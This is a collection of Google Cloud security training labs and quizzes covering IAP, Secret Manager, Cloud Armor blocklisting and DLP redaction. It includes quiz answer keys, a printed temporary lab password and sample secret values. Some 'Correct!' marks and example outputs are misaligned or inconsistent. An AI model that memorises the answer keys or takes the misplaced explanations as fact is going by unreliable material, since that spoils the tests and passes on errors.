Activate Google Cloud Shell
Google Cloud Shell is a virtual machine that is loaded with development tools. It offers a persistent 5GB home directory and runs on the Google Cloud.
Google Cloud Shell provides command-line access to your Google Cloud resources.
In Cloud console, on the top right toolbar, click the Open Cloud Shell button.
Click Continue.
It takes a few moments to provision and connect to the environment. When you are connected, you are already authenticated, and the project is set to your PROJECT_ID. For example:
gcloud is the command-line tool for Google Cloud. It comes pre-installed on Cloud Shell and supports tab-completion.
You can list the active account name with this command:
xxxxxxxxxxgcloud auth list
Copied!
Output:
xxxxxxxxxxCredentialed accounts:- <myaccount>@<mydomain>.com (active)</mydomain></myaccount>
Example output:
xxxxxxxxxxCredentialed accounts:- google1623327_student@qwiklabs.net
You can list the project ID with this command:
xxxxxxxxxxgcloud config list project
Copied!
Output:
xxxxxxxxxx[core]project = <project_id></project_id>
Example output:
xxxxxxxxxx[core]project = qwiklabs-gcp-44776a13dea667a6
Note: Full documentation of gcloud is available in the gcloud CLI overview guide .
Task 1. Create a Compute Engine template
In this task you create an instance template. This is a resource that you use to create virtual machine (VM) instances and managed instance groups (MIGs).
In the Google Cloud console, in the Navigation menu (
Click Create Instance Template.
On the Create an instance template page, specify the following, and leave the remaining settings as their defaults:
| Property | Value |
|---|---|
| Location | Global |
| Series | E2 |
| Machine type | e2-micro (2 vCPU) |
| Access scopes | Set access for each API |
| Access scopes > Compute Engine | Read Only |
| Firewall | Allow HTTP traffic |
Click Advanced options.
Click Management.
In Automation > Startup script, copy and paste the following script:
xxxxxxxxxx# Copyright 2021 Google LLC## Licensed under the Apache License, Version 2.0 (the "License");# you may not use this file except in compliance with the License.# You may obtain a copy of the License at## http://www.apache.org/licenses/LICENSE-2.0## Unless required by applicable law or agreed to in writing, software# distributed under the License is distributed on an "AS IS" BASIS,# WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.# See the License for the specific language governing permissions and# limitations under the License.sudo apt-get -y updatesudo apt-get -y install gitsudo apt-get -y install virtualenvgit clone https://github.com/GoogleCloudPlatform/python-docs-samplescd python-docs-samples/iapvirtualenv venv -p python3source venv/bin/activatepip install -r requirements.txtcat example_gce_backend.py |sed -e "s/YOUR_BACKEND_SERVICE_ID/$(gcloud compute backend-services describe my-backend-service --global --format="value(id)")/g" |sed -e "s/YOUR_PROJECT_ID/$(gcloud config get-value account | tr -cd "[0-9]")/g" > real_backend.pygunicorn real_backend:app -b 0.0.0.0:80
Copied!
Click Create.
It takes a few moments to create your instance template.
Task 2. Create a managed instance group
In this task you create a managed instance group (MIG), a collection of virtual machine (VM) instances that you manage as a single entity.
In the Google Cloud console, in the Navigation menu (
Click Create Instance Group.
Click New managed instance group (stateless) from the left-hand menu.
On the New managed instance group (stateless) page, specify the following, and leave the remaining settings as their defaults:
| Property | Value |
|---|---|
| Name | my-managed-instance-group |
| Instance template | Select the instance template you created in Task 1. |
| Location | Multiple zones |
| Region | us-central1 (Iowa) |
| Autoscaling > Autoscaling mode | Off: do not autoscale |
| Number of instances | To change the number of instances, you must first turn off autoscaling; see below. When this is done, set the maximum number value to 3. |
Note: Do not forget to set the number of instances after you change the autoscaling mode.
Click Create.
It will take a few minutes to create the MIG.
Task 3. Create a Google Cloud self-managed SSL certificate resource
In this task you create a private key, a certificate, and then a self-managed SSL certificate resource. Before you can create a Google Cloud SSL certificate resource, you must have a private key and certificate.
A Google Cloud SSL certificate includes both a private key and the certificate itself, both in PEM format.
Self-managed SSL certificates are certificates that you obtain, provision, and renew yourself. You use this resource to secure communication between clients and your load balancer, which you create in the next task.
Create a private key and certificate
On the Google Cloud console title bar, click Activate Cloud Shell (
To create a new private key with RSA-2048 encryption in the PEM format OpenSSL, run the following command:
xxxxxxxxxxopenssl genrsa -out PRIVATE_KEY_FILE 2048
Copied!
Create a CSR
Generate a certificate signing request (CSR) in the PEM format using OpenSSL.
Click Open Editor. If prompted, click Open in a new window.
In Cloud Shell Editor, click the menu and select File > New File.
For the filename, type ssl_config, and press enter.
Ensure the create file location is shown as /home > student-XX-XXXXXXXXX/ssl_config and then click OK.
Copy and paste the following configuration into the Cloud Editor window:
xxxxxxxxxx[req]default_bits = 2048req_extensions = extension_requirementsdistinguished_name = dn_requirementsprompt = no[extension_requirements]basicConstraints = CA:FALSEkeyUsage = nonRepudiation, digitalSignature, keyEncipherment[dn_requirements]countryName = USstateOrProvinceName = CAlocalityName = Mountain View0.organizationName = CloudorganizationalUnitName = ExamplecommonName = Test
Copied!
Click the menu and select File > Save.
Return to the previous tab. You may have to click Open Terminal to resume your Cloud Shell session.
To create a certificate signing request (CSR) file, run the following OpenSSL command:
xxxxxxxxxxopenssl req -new -key PRIVATE_KEY_FILE \-out CSR_FILE \-config ssl_config
Copied!
Sign the CSR
When a Certificate Authority (CA) signs your CSR, it uses its own private key to create a certificate.
To create a self-signed certificate for testing, run the following OpenSSL command:
xxxxxxxxxxopenssl x509 -req \-signkey PRIVATE_KEY_FILE \-in CSR_FILE \-out CERTIFICATE_FILE.pem \-extfile ssl_config \-extensions extension_requirements \-days 365
Copied!
Create a self-managed SSL certificate resource
Before you can create a Google Cloud SSL certificate resource, you must have a private key and certificate.
To create a global SSL certificate, use the
gcloud compute ssl-certificates createcommand with the--globalflag:
xxxxxxxxxxgcloud compute ssl-certificates create my-cert \--certificate=CERTIFICATE_FILE.pem \--private-key=PRIVATE_KEY_FILE \--global
Copied!
In the Authorize Cloud Shell prompt, click Authorize.
Task 4. Create a load balancer
In this task you create a load balancer. HTTP(S) Load Balancing is implemented on Google Front End (GFE). GFEs are distributed globally and operate together using Google's global network and control plane.
To set up a load balancer, your VMs must be in an instance group, which you created in the previous tasks.
In the Google Cloud console, in the Navigation menu (
Click Create Load Balancer.
Under Application Load Balancer (HTTP/S), click Next.
Under Under Public facing or internal only, select Public facing (external), click Next.
Under Global or single region deployment, select Best for global workloads, click Next.
Under Load balancer generation, select Global external Application Load Balancer, click Next.
Click Configure.
For Load Balancer Name, type my-load-balancer.
Click Backend Configuration > Backend services & backend buckets > Create a Backend Service.
On the Create backend service panel, for Name, type my-backend-service. You must use the exact name my-backend-service. If you use a different name, the startup script on your VMs won't be able to find the correct Backend Service ID to authenticate requests.
In New backend, specify the following, and leave the remaining settings as their defaults:
| Property | Value |
|---|---|
| Instance group | my-managed-instance-group |
| Port Numbers | 80 |
Uncheck Enable Cloud CDN.
In Health check, click Create a Health Check.
For Name, type my-health-check.
For Protocol, select HTTP.
Click Save.
Click Create.
The Create global external Application Load balancer pane reappears.
Click Frontend configuration. Specify the following, and leave the remaining settings as their defaults:
| Property | Value |
|---|---|
| Protocol | Https (includes HTTP/2 and HTTP/3) |
| IP address | Click Ephemeral, and then select Create IP address |
| Name | Type static-ip, and then click Reserve. |
| Certificate | my-cert |
Click Done.
The Create global external Application Load balancer pane reappears.
In Create global external Application Load Balancer, click Create.
The Load balancing page appears and your new load balancer will be created in the list of load balancers.
When the Cloud console finishes creating the new load balancer, click the name of the load balancer and note the external IP address under Details > Frontend. You will need it in task 7.
Task 5. Restart your VMs
In this task you restart the VMs in your MIG so that they can correctly authenticate requests from IAP.
In the Google Cloud console, in the Navigation menu (
Click my-managed-instance-group.
Click Restart/Replace VMs.
For Operation, click Restart.
For Instances, type 3
For Minimum wait time, type 0
Click Restart VMs.
Task 6. Set up IAP
Configure your firewall
In this task you configure your firewall to block access to the underlying VMs and only allow access through IAP.
In the Google Cloud console, in the Navigation menu (
Select the default-allow-internal checkbox.
Click Delete, and then select Delete to confirm it.
Click Create Firewall Rule. Specify the following, and leave the remaining settings as their defaults:
| Property | Value |
|---|---|
| Name | allow-iap-traffic |
| Targets | All instances in the network |
| Source IPv4 ranges | 130.211.0.0/22, 35.191.0.0/16 (Press Enter after you paste each value in the box) |
| Protocols and ports | Specified protocols and ports |
| TCP | 80 |
Click Create.
Set up IAP
In this step you set up IAP for your project.
In the Google Cloud console, in the Navigation menu (
Click Enable API.
Click Go to Identity Aware Proxy.
Click Configure Consent Screen.
Caution: Don't enter any confidential information on the OAuth consent screen. Any information you save to the OAuth consent screen may be publicly visible for anyone who accesses your URL. Email and product details are displayed on the login screen and when someone tries to access a resource for which they don't have permission.
In User Type, select External , and then click Create.
In App name , type IAP.
In User support email, select the student account. This has the value of student-00-***@qwiklabs.net**.
For Developer contact information, copy and paste the student account Username from the lab window. This matches the value in the previous step.
Click Save and Continue three times, and then select Back to Dashboard.
To change information on the OAuth consent screen later, such as the product name or email address, repeat the preceding steps to configure the consent screen.
In the Google Cloud console, in the Navigation menu (
Next to my-backend-service, toggle the on/off switch in the IAP column.
In the Turn on IAP dialog, select the checkbox to confirm you have read the configuration requirements.
Click Turn On.
Note: If you see an error, click on the error. If you are then prompted to add a firewall rule, edit the rule you created previously to include the port number mentioned in the error.
Confirm that OAuth Consent has been set up.
Check my progress
Add principals to the access list
In this step you add principals to the IAP access list for your project.
In Identity-Aware Proxy, select the my backend-service checkbox.
Click Add Principal.
To grant access to yourself, in New Principals, copy and paste your qwiklabs Username from the lab credentials pane.
Select the Role of Cloud IAP > IAP-secured Web App User.
Click Save.
Confirm principal to access the application by configuring IAM.
Check my progress
Task 7. Test IAP
In the task, you run a curl command to test access your external load balancer, and then verify that it is protected by IAP.
In the Google Cloud console, in the Navigation menu (
Click Frontends.
On the Google Cloud console title bar, click Activate Cloud Shell (
Run the following curl command, replacing Load Balancer External IP address with the External IP address of your load balancer:
xxxxxxxxxxcurl -kvi https://<Load Balancer External IP address>
Copied!
Note: If an IAP generated response that is true is displayed, you have successfully configured IAP for your Compute Engine instance.
Scroll up the console page and locate the Http/2 302 redirection to accounts.google.com.
Click on the location link.
The link opens to the Google account integrated authentication page.
Note: Because you used a self-signed cert, you cannot access the application itself. However, this confirms that IAP is configured and is protecting traffic.
Confirm restrict access with IAP.
Check my progress
Congratulations!
You have successfully used IAP to secure a web application running on a Compute Engine instance.
In this lab, you learned how to:
Create an instance template.
Create an instance group.
Create a self-signed certificate.
Create a load balancer.
Configure an Oauth consent screen.
Grant access to the application using IAP.
LAB - Configuring and Using Credentials with Secret Manager
Overview
In this lab, you use Secret Manager from Cloud Console and the Command Line Interface (CLI) to create and use a secret, replace a secret, and finally, reinstate an older version of a secret.
Secret Manager is available in Cloud Console. It is also available from the command line using the CLI or from a program, using the REST API or one of the supported Software Development Kits (SDKs). Supported SDKs include C#, Go, Node.js, Java, etc. A complete list of available SDKs. Information regarding the REST API.
Objectives
In this lab, you learn to:
Enable the Secret Manager API.
Create and use a new secret.
Create a new version of a secret, and disable the old version(s).
Reinstate and verify an older version of a secret.
Setup and requirements
For each lab, you get a new Google Cloud project and set of resources for a fixed time at no cost.
Sign in to Qwiklabs using an incognito window.
Note the lab's access time (for example,
1:15:00), and make sure you can finish within that time. There is no pause feature. You can restart if needed, but you have to start at the beginning.When ready, click Start lab.
Note your lab credentials (Username and Password). You will use them to sign in to the Google Cloud Console.
Click Open Google Console.
Click Use another account and copy/paste credentials for this lab into the prompts. If you use other credentials, you'll receive errors or incur charges.
Accept the terms and skip the recovery resource page.
Note: Do not click End Lab unless you have finished the lab or want to restart it. This clears your work and removes the project.
Task 1. Enable the Secret Manager API
In this task, you enable the Secret Manager API.
Before you access Secret Manager, you must first enable its API. If you fail to do so, when you attempt to access its features, you will receive an error.
In the Navigation menu, Select API & Services.
At the top of the page, click + Enable API and Services.
In the search box, enter
Secret Manager. You should see one result - the Secret Manager API.Click Secret Manager API. On the resulting page, click Enable. If no error occurs - and you see a page with information about this API, you were successful.
Click Check my progress to verify the objective.
Enable the Secret Manager API
Check my progress
Task 2. Create a secret
In this task, you create a secret and add the secret value to the password.
In the Navigation menu, select Security > Secret Manager.
On the Secret Manager main page, click + Create Secret.
For the Name, enter
password.For the Secret value, enter
xyzpdq.Click + Add Label.
For the Key, enter
team.For the Value, enter
acme.Leave all other values at their default setting, and click Create Secret.
Click Check my progress to verify the objective.
Create a secret
Check my progress
Task 3. Use a secret
In this task, you use the secrets command to verify the value of the password secret.
On the Google Cloud Console title bar, click Activate Cloud Shell (
) to open Cloud Shell.
At the bottom of the page, click Continue. Wait for the Google Cloud Shell machine to provision.
At the Cloud Shell Terminal command line, enter:
xxxxxxxxxxgcloud secrets versions access 1 --secret="password"
Copied!
If successful, you should see that the value of the password secret (xyzpdq) is returned at the beginning of the next line, immediately before the command line prompt, similar to what is shown below:
xxxxxxxxxxstudent_00_7413964b6ab0@cloudshell:~ (qwiklabs-gcp-00-f575f732b85b)$ gcloud secrets versions access 1 --secret="password"xyzpdqstudent_00_7413964b6ab0@cloudshell:~ (qwiklabs-gcp-00-f575f732b85b)$
Task 4. Create and use a new secret version
In this task, you create a new version 2 secret and use the secrets command to verify the version 2 value of the password secret.
In the Navigation menu of Google Cloud Console, select Security > Secret Manager. The Secret Manager page shows information about the password secret that you created earlier.
Under Actions, click the More actions menu (i.e., the “three dots” menu) and then click Add New Version.
For the Secret value, enter
abc123.Leave all other values at their default setting, and click Add New Version.
Now, let's use the new secret.
At the Cloud Shell Terminal command line, enter:
xxxxxxxxxxgcloud secrets versions access 2 --secret="password"
Copied!
If successful, you should see that the value of the password secret (
abc123) is returned at the beginning of the next line, immediately before the command line prompt, similar to what is shown in the screenshot below:
xxxxxxxxxxstudent_04_ceff8bd49e59@cloudshell:~ (qwiklabs-gcp-04-60caced57c66)$ gcloud secrets versions access 1 --secret="password"abc123student_04_ceff8bd49e59@cloudshell:~ (qwiklabs-gcp-04-60caced57c66)$
At the command line, try the command again - except this time, for the version, use the latest alias, as shown below:
xxxxxxxxxxgcloud secrets versions access latest --secret="password"
Copied!
If successful, you should see that the version 2 value of the password secret (abc123) is returned at the beginning of the next line, immediately before the command line prompt, similar to what is shown in the screenshot below:
xxxxxxxxxxstudent_04_ceff8bd49e59@cloudshell:~ (qwiklabs-gcp-04-60caced57c66)$ gcloud secrets versions access latest --secret="password"abc123student_04_ceff8bd49e59@cloudshell:~ (qwiklabs-gcp-04-60caced57c66)$
Click Check my progress to verify the objective.
Create and use a new secret version
Check my progress
Task 5. Create a new secret version (and invalidate previous versions)
In this task, you create a new secret version and disable all the past versions. You also verify that only the latest version is accessible.
In the Navigation menu of Google Cloud Console, select Security > Secret Manager. The Secret Manager page shows information about the password secret that you created earlier.
Under Actions, click the More actions menu, and then click Add New Version.
For the Secret value, enter
def123.Select the Disable all past versions checkbox.
Leave all other values at their default setting, and click Add New Version.
Verify that only the latest version is accessible. To do so, at the Cloud Shell Terminal command line, enter:
xxxxxxxxxxgcloud secrets versions access latest --secret="password"
Copied!
If successful, you should see that the value of the password secret (
def123) is returned at the beginning of the next line, immediately before the command line prompt, similar to what is shown in the screenshot below:
xxxxxxxxxxstudent_04_ceff8bd49e59@cloudshell:~ (qwiklabs-gcp-04-60caced57c66)$ gcloud secrets versions access latest --secret="password"def123student_04_ceff8bd49e59@cloudshell:~ (qwiklabs-gcp-04-60caced57c66)$
At the command line, try the command again - except this time, for the version, use the latest alias, as shown below:
xxxxxxxxxxgcloud secrets versions access 2 --secret="password"
Copied!
This should produce a FAILED PRECONDITION error, informing you that version 2 is in the DISABLED state. (If you tried to access version 1, the same error would be produced.)
Click Check my progress to verify the objective.
Create a new secret version (and invalidate previous versions)
Check my progress
Task 6. Reinstate and verify a previous secret version
In this task, you re-enable the version 2 password secret and verify that the version 2 password secret is accessible.
In the Navigation menu of Google Cloud Console, select Security > Secret Manager. The Secret Manager page shows information about the password secret that you created earlier.
Click the password secret. The Details page for the password secret appears.
On the Details page, note that all three versions are shown. In the Status column, you see that version 3 is enabled and versions 1 and 2 are disabled.
For the version 2, under Actions, click the More actions menu, and then select Enable.
Click Enable Selected Versions. In the Status column, version 2 should now appear as enabled.
At the Cloud Shell Terminal command line, enter:
xxxxxxxxxxgcloud secrets versions access 2 --secret="password"
Copied!
If successful, you should see that the version 2 value of the password secret (abc123) is returned at the beginning of the next line, immediately before the command line prompt, similar to what is shown below:
xxxxxxxxxxstudent_04_ceff8bd49e59@cloudshell:~ (qwiklabs-gcp-04-60caced57c66)$ gcloud secrets versions access 2 --secret="password"abc123student_04_ceff8bd49e59@cloudshell:~ (qwiklabs-gcp-04-60caced57c66)$
In the upper right corner of Google Console Manager, find and click on the user icon.
Click Sign out.
QUIZ
Which TWO of the following vulnerabilities are scanned for when you use Web Security Scanner?
Mixed content.
Correct! Web Security Scanner will find instances in your applications where HTTP and HTTPS calls are mixed.
Outdated or insecure libraries.
Correct! Web Security Scanner will check your code libraries to make sure they are current and secure.
User data in images.
Insecure logins.
Personalized data in object names.
Which TWO of the following statements are TRUE when discussing the threat of OAuth and Identity Phishing?
Look-alike phishing sites are generally pretty easy to spot.
Even small, unimportant pieces of personal data need to be secured from phishing attacks.
Correct! While a small piece of personal data may not be enough on its own to allow a phisher to obtain access to a user's more sensitive data, over time these small bits can often be combined to allow user accounts to be compromised.
Credit card data is the only information that is useful to cyber hackers.
Being "hacked" on a social site can lead to being "hacked" on more critical websites, depending on your social site's account settings.
Correct! Some social sites allow users to "link" their accounts on other sites - for example, gaming sites - and that link can often be exploited.
Which TWO of the following statements about Application Security are TRUE?
"Injection Flaws" are the least frequently found application security issue.
Applications are the most common target of cyberattack.
Correct! Attackers know that the security of an application is often undefined and remains untested.
Developers are commonly given a requirements document that clearly defines security requirements for the application.
Applications in general, including many web applications, do not properly protect sensitive user data.
Correct! Attackers will target web applications in order to steal or modify weakly-protected data to facilitate credit card fraud, identity theft, or other data and identity crimes.
Securing Google Kubernetes Engine: Techniques and Best Practices
Quiz
Which ONE of the following is NOT a security best practice on Kubernetes.
Use shielded GKE nodes.
Upgrade your GKE infrastructure.
Disable Workload Identity.
Restrict access between pods.
Correct! Using Workload Identity IS a security best practice for Kubernetes.
"Kubernetes service account" and "Google service account" are different names for the same type of service account.
True
False
Correct! Kubernetes and Google service accounts are different types of accounts with different scopes.
GKE has logging and monitoring functions built in.
True
False
Correct! In the Kubernetes dashboard summary pane, you can view a cluster's key performance metrics, such as CPU utilization, memory utilization, and the number of open incidents.
11 - Mitigating Security Vulnerabilities on Google Cloud
Protecting against Distributed Denial of Service Attacks (DDoS)
LAB - Configuring Traffic Blocklisting with Google Cloud Armor
Overview
HTTP(S) Load balancing is implemented at the edge of Google's network in Google's points of presence (POP) around the world. User traffic directed to an HTTP(S) load balancer enters the POP closest to the user and is then load balanced over Google's global network to the closest backend that has sufficient capacity available.
Google Cloud Armor IP blocklists/allowlists enable you to restrict or allow access to your HTTP(S) load balancer at the edge of the Google Cloud, as close as possible to the user and to malicious traffic. This prevents malicious users or traffic from consuming resources or entering your virtual private cloud (VPC) networks.
In this lab, you will verify that the HTTP load balancer with global backends is deployed. This load balancer is automatically provisioned for you during startup. You will then create a VM to test access to the load balancer. Finally, you will stress test the load balancer and blocklist the stress test IP with Google Cloud Armor.
Objectives
In this lab, you will learn how to perform the following tasks:
Verify that the HTTP load balancer is deployed.
Create a VM to test access to the HTTP load balancer.
Use Google Cloud Armor to blocklist an IP address and restrict access to an HTTP load balancer.
Setup and requirements
For each lab, you get a new Google Cloud project and set of resources for a fixed time at no cost.
Click the Start Lab button. If you need to pay for the lab, a pop-up opens for you to select your payment method. On the left is the Lab Details panel with the following:
The Open Google Cloud console button
Time remaining
The temporary credentials that you must use for this lab
Other information, if needed, to step through this lab
Click Open Google Cloud console (or right-click and select Open Link in Incognito Window if you are running the Chrome browser).
The lab spins up resources, and then opens another tab that shows the Sign in page.
*Tip:* Arrange the tabs in separate windows, side-by-side.
Note: If you see the Choose an account dialog, click Use Another Account.
If necessary, copy the Username below and paste it into the Sign in dialog.
xxxxxxxxxxstudent-02-254cd7d05b81@qwiklabs.netCopied!
You can also find the Username in the Lab Details panel.
Click Next.
Copy the Password below and paste it into the Welcome dialog.
xxxxxxxxxxnnUTWuVBX22yCopied!
You can also find the Password in the Lab Details panel.
Click Next.
Important: You must use the credentials the lab provides you. Do not use your Google Cloud account credentials.
Note: Using your own Google Cloud account for this lab may incur extra charges.
Click through the subsequent pages:
Accept the terms and conditions.
Do not add recovery options or two-factor authentication (because this is a temporary account).
Do not sign up for free trials.
After a few moments, the Google Cloud console opens in this tab.
Note: To view a menu with a list of Google Cloud products and services, click the Navigation menu at the top-left, or type the service or product name in the Search field.
Task 1. Verify the HTTP load balancer is deployed
In this task, you verify that the global HTTP load balancer is deployed. The HTTP load balancer is automatically created when you start the lab. This will be used for a simple web application. This application is deployed to demonstrate the capabilities of Google Cloud Armor.
On the Google Cloud console title bar, click Activate Cloud Shell (
Verify that the load balancer is deployed and registered by executing the following command:
xxxxxxxxxxgcloud compute backend-services get-health web-backend --global
Copied!
Note: Rerun this command and wait until this command returns that three instances are HEALTHY. You can also monitor it in the console (Navigation menu > View All Products > Network services > Load balancing).
Retrieve the load balancer IP address by executing the following command:
xxxxxxxxxxgcloud compute forwarding-rules describe web-rule --global
Copied!
Copy the value for the IPAddress property.
Keep track of this IP address. It will also be used in a later section.
Open a new browser tab and try to visit that IP address
http://{IP_ADDRESS}.
Replace {IP_ADDRESS} with the IP address of the load balancer. Do not include the curly braces when you are asked to provide the IP address.
If you get a message that the IP address doesn't support a secure connection, click Continue to site.
Keep refreshing the page until you see a page with a message similar to this:
Note: It might take a couple of minutes to access the HTTP load balancer. In the meantime, you might get 404 or 502 errors. Keep trying until you see the page of one of the backends.
In Cloud shell, use the following
curlcommand to access the IP address:
xxxxxxxxxxwhile true; do curl -m1 {IP_ADDRESS}; done
Copied!
The responses will be from backends that have been created in different zones.
Press CTRL+C to stop the previous command.
Task 2. Create a VM to test access to the load balancer
Go to Navigation menu > Compute Engine.
Click Create Instance.
On the Machine configuration page, enter the following values:
Field Value (type or select) Name access-test Region europe-west4Zone europe-west4-cLeave everything else at the default and click Create.
Once launched, click the SSH button to connect to the instance.
Run the following command on the instance to access the load balancer:
xxxxxxxxxxcurl -m1 {IP_ADDRESS}
Copied!
The output should look similar to:
xxxxxxxxxx<!doctype html><html><body><h1>Web server</h1><h2>This server is in zone: projects/104716457480/zones/europe-west4-c</h2> </body></html>
Click Check my progress to verify the objective.
Create a VM to test access to the load balancer.
Check my progress
Task 3. Create a security policy with Google Cloud Armor
Blocklist the access-test VM
Note: You will now create a security policy to blocklist access to the load balancer from the access-test VM. This policy can be used to block access from a malicious client. There are ways to identify the external IP address of a client trying to access your HTTP load balancer. For example, you could examine traffic captured by VPC Flow Logs in BigQuery to determine a high volume of incoming requests.
Go to Navigation menu > Compute engine, click access-test VM and scroll down to Network interface and then copy the External IP address.
From the Navigation menu > View All Products. Go to Networking section, click Network Security > Cloud Armor policies.
Click Create policy.
Provide a name as blocklist-access-test and set the Default rule action to Allow.
Click Next step.
Click Add rule.
Set the following values, leave all other values at their defaults:
| Property | Value |
|---|---|
| Mode | Basic mode (IP addresses/ranges only) |
| Match | Enter the External IP of the access-test VM |
| Action | Deny |
| Response code | 404 (Not Found) |
| Priority | 1000 |
Note: Notice that you are setting the Deny status to 404.
Click SAVE CHANGE TO RULE.
Click Next step.
Click + Add Target.
For Type 1, select Backend service (external application load balancer).
For Backend Service target 1, select web-backend.
Click Next step.
Click Done.
Click Create policy.
Note: Alternatively, you could set the default rule to Deny and only allow list traffic from authorized users/IP addresses.
Wait for the policy to be created before moving to the next step.
Verify the security policy
Return to the SSH session of the access-test VM.
Run the
curlcommand again on the instance to access the load balancer:
xxxxxxxxxxcurl -m1 {IP_ADDRESS}
Copied!
The output should look as follows.
Output:
xxxxxxxxxx<!doctype html><meta charset="utf-8"><meta name=viewport content="width=device-width, initial-scale=1"><title>404</title>404 Not Found
Note: It might take a couple of minutes for the security policy to take affect. If you are able to access the backends, keep trying until you get the 404 Not Found error.
Try accessing the load balancer IP from your local browser. You should still be able to access it as we have only blocklisted the access-test VM.
Click Check my progress to verify the objective.
Create a security policy with Google Cloud Armor.
Check my progress
Task 4. View Google Cloud Armor logs
In the Cloud console, from the Navigation menu > View All Products. Go to Networking section, click Network Security > Cloud Armor policies.
Click blocklist-access-test.
Click Logs.
Click View policy logs and go to the latest logs. If prompted, close the notification.
Locate a log with a 404 and expand the log entry.
Expand httpRequest.
The request should be from the access-test VM IP address.
Explore some of the other log entries.
Congratulations!
In this lab, you have done the following:
Verified that the HTTP load balancer was deployed.
Created a VM to test access to the HTTP load balancer.
Used Google Cloud Armor to blocklist an IP address and restrict access to an HTTP load balancer.
QUIZ
Choose the FOUR correct DDoS Mitigation Layers from the list below.
Botnet Detection API
Ping Report
CDN Offloading
Correct! Offload static content to a CDN to minimize impact.
Attack Surface
Correct! Reduce the attack surface by reducing externally facing resources.
Google Cloud Blocklist
Internal Traffic
Correct! Isolate internal traffic from the outside world by restricting access.
Load Balancing
Correct! Use proxy-based load balancing to distribute load across resources.
Which TWO of the following statements is TRUE about Google Cloud Armor?
Google Cloud Armor currently is not compatible with any third-party partner security products.
Google Cloud Armor enforces access control based on IPv4 and IPv6 addresses or CIDRs.
Correct! Google Cloud Armor assists you in customizing your defenses and mitigating multi-vector attacks.
Google Cloud Armor is a Ransomware defense service.
Google Cloud Armor protection is delivered at the edge of Google’s network.
Correct! In this manner, it functions like a CDN and can block attacks close to their source, before they have a chance to affect your applications.
Choose from the list below which way Google Cloud helps mitigate the risk of DDoS for its customers.
Google Cloud firewall rules rate limit the number of requests sent to VMs.
Isolation servers are available with no external or internal access.
Internal capacity many times that of any traffic load we can anticipate.
Google Blocklist API is automatically included within each project.
Correct! In fact, a single Google Data Center has a bisection bandwidth of 1,300 terabits per second (the whole internet has a bisection bandwidth of 200 terabits per second!)
Content-Related Vulnerabilities: Techniques and Best Practices
LAB - Redacting Sensitive Data with the DLP API
Overview
In this lab, you will set up the Cloud Data Loss Prevention API (DLP API) and use the API to inspect a string of data for sensitive information. The DLP API helps you better understand and manage sensitive data.
It provides fast, scalable classification and redaction for sensitive data elements like credit card numbers, names, social security numbers, US and selected international identifier numbers, phone numbers and Google Cloud credentials.
Objectives
In this lab, you will learn how to do the following:
Enable the DLP API.
Install the Node JS DLP API and sample.
Inspect string data for sensitive data.
Redact sensitive data from string data and images.
Setup and requirements
For each lab, you get a new Google Cloud project and set of resources for a fixed time at no cost.
Sign in to Qwiklabs using an incognito window.
Note the lab's access time (for example,
1:15:00), and make sure you can finish within that time. There is no pause feature. You can restart if needed, but you have to start at the beginning.When ready, click Start lab.
Note your lab credentials (Username and Password). You will use them to sign in to the Google Cloud Console.
Click Open Google Console.
Click Use another account and copy/paste credentials for this lab into the prompts. If you use other credentials, you'll receive errors or incur charges.
Accept the terms and skip the recovery resource page.
Note: Do not click End Lab unless you have finished the lab or want to restart it. This clears your work and removes the project.
Task 1. Enable the DLP API
In this task, you enable the DLP API through APIs & Services.
Go to Navigation menu > APIs & Services.
Click the Enable APIs and Services button.
In the Search for APIs & Services field, enter
DLPand then click on the Cloud Data Loss Prevention (DLP) API title.
Click the Enable button to enable the DLP API. If the API is already enabled, you will see a Manage button instead, along with an API enabled message. In that case you do not need to do anything.
Task 2. Install the DLP API and Node JS samples
In this task, you download the Node JS DLP API and samples and install the required dependencies.
On the Google Cloud Console tile bar, click Activate Cloud Shell (
Run the following command to create the
GCLOUD_PROJECTenvironment variable and set it to the project ID:
xxxxxxxxxxexport GCLOUD_PROJECT=$DEVSHELL_PROJECT_ID
Copied!
Run the following command in Cloud Shell to download the Node JS DLP API and samples:
xxxxxxxxxxgit clone https://github.com/GoogleCloudPlatform/nodejs-docs-samples
Copied!
Once the download is complete, change into the nodejs-docs-samples/dlp directory:
xxxxxxxxxxcd nodejs-docs-samples/dlp
Copied!
There are several Node JS DLP sample programs in this folder. Before you run them, you need to install the dependencies.
Run the following command to install the required dependencies:
xxxxxxxxxxnpm install @google-cloud/dlpnpm install yargsnpm install mime@2.5.2
Copied!
Task 3. Inspect and redact sensitive data
In this task, you inspect and mask sensitive information from the string also use the DLP API to redact sensitive data from an image.
Inspect a string for sensitive information
In Cloud Shell run the command below. (If prompted, click Authorize.)
xxxxxxxxxxnode inspectString.js $GCLOUD_PROJECT "My email address is joe@example.com."
Copied!
You should receive the following output.
Output:
xxxxxxxxxxFindings:Info type: EMAIL_ADDRESSLikelihood: LIKELY
The result shows what sensitive data was found, what type of information it is, and how certain the API is about that info type.
In Cloud Shell, run the following command:
xxxxxxxxxxnode inspectString.js $GCLOUD_PROJECT "My phone number is 555-555-5555."
Copied!
You should receive the following output.
Output:
xxxxxxxxxxFindings:Info type: PHONE_NUMBERLikelihood: VERY_LIKELY
Feel free to experiment with different input to the inspectString.js program. For example, try passing in values like
1234-5678-9876-5432or123-45-6789.
Mask sensitive information from a string
In Cloud Shell, run the following command:
xxxxxxxxxxnode deidentifyWithMask.js $GCLOUD_PROJECT "My phone number is 555-555-5555."
Copied!
You should receive the following output.
Output:
xxxxxxxxxxMy phone number is ************.
Redact sensitive data from images
You will now use the DLP API to redact sensitive data from an image.
Right-click on the image below and select Save image as. Save it locally on your computer as
dlp-input.png.

In the bar above the terminal, click the button at the top right with three vertical dots and select Upload.
If Upload is not clickable ("grayed out"), then click Restart. After the Cloud Shell environment is restarted, the Upload Link should be active.
Execute these commands commands before starting the next step in the lab.
xxxxxxxxxxexport GCLOUD_PROJECT=$DEVSHELL_PROJECT_ID
Copied!
Click Choose Files, select the downloaded dlp-input.png image file, and Upload it to Cloud Shell.
From Cloud Shell, click Open Editor . This will launch the Cloud Shell code editor, which includes a file browser.
In the Cloud Shell code editor, on the left, you should see the dlp-input.png file.
Click the dlp-input.png file to display the image and verify it was uploaded.
From Cloud Shell, click Open Terminal to return to the terminal window.
In the terminal, run the following command to redact the email address values from the image:
xxxxxxxxxxnode redactImage.js $GCLOUD_PROJECT ~/dlp-input.png "" EMAIL_ADDRESS ~/dlp-redacted.png
Copied!
Open Editor.
